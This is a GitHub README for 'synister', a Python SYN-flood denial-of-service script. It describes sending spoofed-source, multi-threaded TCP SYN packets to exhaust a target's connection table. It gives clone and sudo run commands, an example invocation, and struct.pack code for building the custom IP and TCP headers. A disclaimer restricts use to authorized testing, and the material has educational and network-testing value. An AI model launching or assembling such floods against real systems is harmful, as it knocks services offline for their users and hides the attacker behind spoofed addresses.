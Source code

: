 
# synister

A denial of service attack script written in Python.

Flood the target IP with TCP-SYN packets, filling up their connection table, overwhelming the device and limiting its ability to make new connections, degrading performance. The script first creates raw sockets and builds custom IP and TCP headers for the packets with a spoofed source IP address and port, and then floods the target with the packets. This script also supports multi threaded flooding to maximize intensity.

---

# Features

- Custom IP and TCP headers
- Spoofed source address
- Multi threaded attack
- Raw SYN packets without completing the TCP handshake

**Requirements**: Python3 and root privileges.

---

# How to use

Legal disclaimer: **Do not use this without permission from the target**. This tool is intended for educational and authorized testing purposes only. Unauthorized use against systems you do not own is illegal and may result in legal consequences. Always obtain explicit permission before conducting network security testing.

1.  Clone the repo `git clone https://github.com/xshthkr/synister.git`
2. `cd synister/src`
3. `sudo python3 main.py` with the appropiate parameters.

A `KeyboardInterrupt` [CTRL + C] stops the attack.

Parameters:

| Argument     | Description                                           |
|--------------|-------------------------------------------------------|
| `--src-ip`   | source IP address (can be spoofed)                    |
| `--src-port` | source port (can be spoofed)                          |
| `--dst-ip`   | target IP address                                     |
| `--dst-ports`| list of destination ports (separated with spaces)     |

Example usage:

```bash
sudo python3 syn_flood.py --src-ip 192.168.20.100 --src-port 5555 --dst-ip 192.168.20.200 --dst-ports 80 443 53
```

---

# How it works

We first manually create a socket (or sockets if multi threading) so the kernel doesnt initialize the headers for us. We will be creating our own custom headers.

IP header:

```python
ip_header = struct.pack (
        "!BBHHHBBH4s4s",        # format string to specify header fields
        0x45,                   # version (4) + header length (5)
        0,                      # type of service (0 = default, no priority)   
        40 + payload_size,      # total length, header + payload 
        60069,                  # unique packet id 
        0,                      # flag (0) + fragment offset (0) 
        255,                    # ttl, 255 hops 
        socket.IPPROTO_TCP,     # tcp protocol 
        0,                      # checksum (set to 0, recomputed later) 
        socket.inet_aton(spoofed_src_ip), 
        socket.inet_aton(dst_ip)
)
```

We calculate the checksum and then update the checksum field of the IP header.

TCP header:

```python
tcp_header = struct.pack (
        "!HHLLBBHHH",       # format string to specify TCP header fields 
        spoofed_src_port, 
        dst_port,
        0,                  # SYN no. (init 0 or random)
        0,                  # ACK no. (0 for initial SYN)
        0x50,               # data offset 
        0x02,               # tcp flags (0x02 for SYN)
        8192,               # window (buffer) size
        0,                  # checksum (set to 0, recomputed later)
        0                   # urgent pointer
)
```

A pseudoheader is created and injected into the TCP header for calculating the checksum.

Then we build the packet `ip_header + tcp_header + payload` and its ready to be used.
